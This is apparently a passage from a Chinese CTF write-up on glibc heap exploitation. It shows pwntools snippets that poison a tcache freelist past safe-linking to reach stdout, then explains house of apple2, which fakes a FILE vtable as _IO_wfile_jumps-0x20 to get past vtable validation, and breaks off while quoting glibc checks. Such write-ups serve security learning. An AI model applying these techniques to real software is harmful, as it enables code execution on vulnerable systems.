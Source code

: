 又因为上面泄漏heap的时候让chunk4的size被覆盖掉了，直接free会报错，所以上面补了一个size(只要合适随便多少)。  

也就是这样

![](https://raw.githubusercontent.com/4ak5ra/image/main/最终.png)

```python
free(4)   #我们在上面已经伪造了一个0x70的fake_size
free(10)  #让上面那个chunk4越界修改这个chunk(因为堆块重叠后是物理相邻的)

add(0x60, b'a' * 0x48 + p64(0x401) + p64(((heap_addr + 0x470) >> 12) ^ (stdout_addr))[:-1])  #把4再申请回来越界修改chunk10的fd
```
然后写数据就行了

```python
add(0x3f0, ROP_payload)

add(0x3f0, bytes(FILE_payload))
```

## house of apple2
参考  

### 伪造虚表
泄露出libc后就可以打house of apple2了。位于 libc 数据段的 vtable 是不可以进行写入的，低版本直接将该指针劫持到(更改该指针变量的使其指向)可控内存就能打rop了。但是高版本的libc会对vtable的范围检查，所以一般的fsop就行不通。而house of apple2就是换了一个vtable再使用fsop的思路去控制io流

stdin/stdout/stderr这三个_IO_FILE结构体使用的是_IO_file_jumps这个vtable，而当需要调用到vtable里面的函数指针时，会使用宏去调用。以_IO_file_overflow调用为例，glibc中调用的代码片段分析如下：
```c
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
 
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
 
# define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable (_IO_JUMPS_FILE_plus (THIS)))
```
这个IO_validate_vtable会检查vtable的合法性，使得一般的劫持vtable行不通(具体来说就是会检查vtable和vtabel_start的off,不合法就进一步检查是否是dll段或重构的vtable，再不合法就报错了) 

但是_IO_wfile_jumps(也就是_wide_vtable的实例)就没用这个检查，所以就劫持这个vtable了

再看一下puts函数流程

puts中调用_IO_file_xsputn是这样的：stdout->`vatble(0xd8)`->_IO_file_xsputn(0x38)。在这个函数中直接调用_IO_file_overflow。  

所以要调用_IO_wfile_overflow则需要vatble+0x38位置为_IO_wfile_jumps+0x18，所以这里控制vtable为_IO_wfile_jumps-0x20    
0 `(IO_wfile_jumps)`-0x20`（fake off）`+0x38`(_IO_file_xsputn的off`)=0x18`(_IO_wfile_overflow的off)`  

所以：
```c
FILE.vtable = libc.sym['_IO_wfile_jumps'] + libc_base - 0x20
```
因为puts函数一定会调用xsputs(puts函数本身就是这么用宏定义的)，所以我们第一次控制io流就选这个虚函数来控制
### 绕过检查
我们最终是想要调用_IO_wdoallocbuf函数(所以上面才会先控制_IO_wfile_overflow),在此之前我们要绕过一些检查
```c
_IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /*检查1*/
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  // If currently reading or no buffer allocated. 
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)  /* 检查2 */
```
